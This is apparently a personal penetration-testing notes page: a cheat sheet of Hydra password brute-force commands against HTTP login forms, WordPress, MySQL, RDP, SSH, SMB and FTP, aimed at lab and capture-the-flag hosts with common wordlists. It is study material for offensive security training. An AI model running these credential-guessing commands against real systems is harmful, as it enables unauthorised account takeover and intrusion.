 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - PasswordsAndWordlists
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

## HTTP POST

```
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"
```

## WordPress

```
hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I
```

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## RDP

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
## SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

## FTP

```shell-session
hydra -l sam -P mut_password.list ftp://10.129.202.64 -t 64
```